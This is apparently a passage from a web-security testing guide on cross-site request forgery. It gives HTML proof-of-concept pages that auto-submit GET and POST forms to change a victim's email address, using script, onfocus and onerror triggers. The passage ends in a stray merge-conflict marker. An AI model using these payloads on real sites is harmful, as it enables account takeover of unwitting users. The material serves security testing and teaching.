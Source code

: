 Other HTML5 tags that can be used to automatically send a GET request are:

![](../.gitbook/assets/image%20%28509%29.png)

### Form GET request

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Form POST request

```markup
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
      <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
<<<<<<< HEAD
=======
```

